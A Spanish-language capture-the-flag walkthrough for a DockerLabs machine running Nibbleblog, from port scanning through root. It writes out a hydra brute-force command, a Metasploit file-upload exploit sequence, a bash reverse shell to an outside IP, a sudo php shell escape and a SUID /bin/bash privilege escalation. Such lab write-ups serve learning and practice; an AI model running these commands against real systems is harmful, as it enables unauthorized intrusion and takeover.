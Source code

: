 
https://dockerlabs.es/
https://mega.nz/file/FbcgFS4J#_hcnLHn7jiXA-xlNkeXMRd92bJSaubMDeLIXZ-cMBrs
## Desplegar el docker

![[Pasted image 20250522195840.png]]

Y los mismos pasos que los ultimos ping y luego nmap para saber los puertos que tiene expuestos.

![[Pasted image 20250522195917.png]]

Vamos a mirar la pagina web.

![[Pasted image 20250522195942.png]]
Vemos que es la página por defecto de apache.

Hacemos como en maquinas anteriores, vamos a ver el codigo de la pagina.

![[Pasted image 20250522200035.png]]

Ya sabemos a donde tener que ir a mirar

![[Pasted image 20250522200106.png]]

Vamos a hacer `fuzzing` con `gobuster`

![[Pasted image 20250522200325.png]]

Vamos a visitar el panel de admin

![[Pasted image 20250522200342.png]]

Sabiendo esto podemos hacer fuerza bruta con `hydra` vamos a recoger la request con las `request` del navegador.

![[Pasted image 20250522200444.png]]
Vamos a utilizar el diccionario `rockyou` para esto.

`hydra -L users.txt -P /usr/share/wordlists/rockyou.txt "http-post-form://172.17.0.2/nibbleblog/admin.php:username=^USER^&password=^PASS^:Invalid username or password"`

![[Pasted image 20250522200931.png]]

Tiene algun tipo de protección la pagina ya que si la refrescamos esta bloqueda

![[Pasted image 20250522201010.png]]

Pero si probamos la tipico `admin:admin` entramos

![[Pasted image 20250522201040.png]]

Si buscamos en ajustes podemos ver que versión tiene

![[Pasted image 20250522201308.png]]

Vamos a buscar con `searchsploit` si es vulnerable dicha versión

![[Pasted image 20250522201342.png]]

Si miramos el exploit, está abusando del plugin **My Image** por lo que tenemos que verificar que esté instalado.

![[Pasted image 20250522201443.png]]

No lo está por lo que vamos a instalarlo para poder hacer uso de ella.

![[Pasted image 20250522201511.png]]

Vamos a utilizar un framework de metasploit `msfconsole`

`msfconsole
`use exploit/multi/http/nibbleblog_file_upload`
`set PASSWORD admin`
`set USERNAME admin`
`set RHOSTS 172.17.0.2`
`set TARGETURI /nibbleblog/`
`exploit`

![[Pasted image 20250522201633.png]]

![[Pasted image 20250522201711.png]]

Ya estamos dentro. vamos hacer una reverse shell

`bash -c "bash -i >&/dev/tcp/192.168.109.144/443 0>&1" `

Y nos ponemos con `netcat`  a la escucha del puerto 443

![[Pasted image 20250522233820.png]]

Ahora ya podemos empezar con la escalada de privilegios.

Vamos a ver que puede ejecutar
![[Pasted image 20250522233856.png]]

Vemos que el usuario **chocolate** puede ejecutar `php`

![[Pasted image 20250522233956.png]]

Podemos ver que el usuario **chocolate** tiene permisos para el archivo, vamos a utilizarlo.

Pero primero vamos a cambiar al usuario

`sudo -u chocolate /usr/bin/php -r "system('/bin/bash');"`

![[Pasted image 20250522234321.png]]

Ahora modificamos el `.php`

`echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php`

Y como está un proceso ejecutandolo si lo miramos ya lo tiene `root`

![[Pasted image 20250522234437.png]]

Ya somos `root`